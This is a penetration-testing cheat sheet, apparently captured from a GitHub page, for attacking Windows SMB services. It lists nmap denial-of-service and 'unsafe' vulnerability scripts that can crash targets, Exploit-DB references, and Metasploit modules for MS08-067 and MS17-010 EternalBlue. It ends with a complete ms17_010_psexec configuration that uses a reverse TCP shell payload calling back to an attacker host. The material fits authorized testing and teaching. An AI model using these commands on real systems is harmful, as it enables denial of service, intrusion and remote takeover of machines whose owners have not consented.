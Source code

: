 ```bash
nmap -sV -p445 --script=smb-vuln-regsvc-dos 10.10.x.x

#SMB DOS
nmap -sV -p445 --script=smb-flood --script-args smbdomain=Domain,smbuser=Username,smbpass=Password 10.10.x.x
```

### Various vulnerable systems using this service can be detected.

```bash
#MS03-026: Buffer Overrun In RPC Interface Could Allow Code Execution (823980) [CAN-2003-0352]
Exploit-DB: 66.c

#MS06-025: Vulnerability in Routing and Remote Access Could Allow Remote Code Execution (911280) [CVE-2006-2370] (Buffer overflow in RRAS)
nmap -sV -p445 --script=smb-vuln-ms06-025 --script-args unsafe=1 10.10.x.x

#MS06-040: Vulnerability in Server Service Could Allow Remote Code Execution (921883) (uncredentialed check) [CVE-2006-3439]
use exploit/windows/smb/ms06_040_netapi ***

#MS07-029: Vulnerability in Windows DNS RPC Interface Could Allow Remote Code Execution (935966) [CVE-2007-1748] (Buffer overflow which can crash the RPC intrface in the DNS Server)
nmap -sV -p445 --script=smb-vuln-ms07-029 --script-args unsafe=1 10.10.x.x

#MS08-067: Microsoft Windows Server Service Crafted RPC Request Handling Remote Code Execution (958644) (uncredentialed check) [CVE-2008-4250] (Buffer overflow/RCE. Dangerous, can crash the target)
nmap -sV -p445 --script=smb-vuln-ms08-067 --script-args unsafe=1 10.10.x.x
nmap -sV -p445 --script=smb-vuln-conficker --script-args unsafe=1  10.10.x.x # (dangerous, can crash target)
Exploit-DB: 7132.py ***
msf > use exploit/windows/smb/ms08_067_netapi ***

#MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) [CVE-2010-2729] (Print vulnerability. Safe and can\'t crash the target)
nmap -sV -p445 --script=smb-vuln-ms10-061 --script-args unsafe=1 10.10.x.x

#MS17-010: Security Update for Microsoft Windows SMB Server (4013389) (uncredentialed check) [CVE-2017-0143] (RCE, just checking if vulnerable)
nmap -sV -p445 --script=smb-vuln-ms17-010 --script-args unsafe=1 10.10.x.x
nmap -sV -p445 --script=smb2-vuln-uptime --script-args smb2-vuln-uptime.skip-os=true 10.10.x.x
msf > use auxiliary/scanner/smb/smb_ms17_010
msf > use exploit/windows/smb/ms17_010_eternalblue
msf > use exploit/windows/smb/ms17_010_psexec

#(IMPORTANT MS17_010_PSEXEC is a staged payload, means you need meterpreter !)
#(IMPORTANT 2, if object can\'t be found, try to modify your target !)
set SHARE ADMIN$
set SMBDomain secybr.local
set ALLOW_GUEST true
set LPORT 445
set LHOST 10.10.y.y
set RHOST 10.10.x.x
set TARGET 3       #(TARGET 1 = PowerShell / TARGET 2 = Native / TARGET 3 = MOF => share ADMIN$)
set PAYLOAD windows/shell/reverse_tcp
set VERBOSE true
set DBGTRACE true
set EXITFUNC thread
exploit -j

#Trans2open Exploitation
# Samba 2.2.X are usually vulnerable to trans2open
```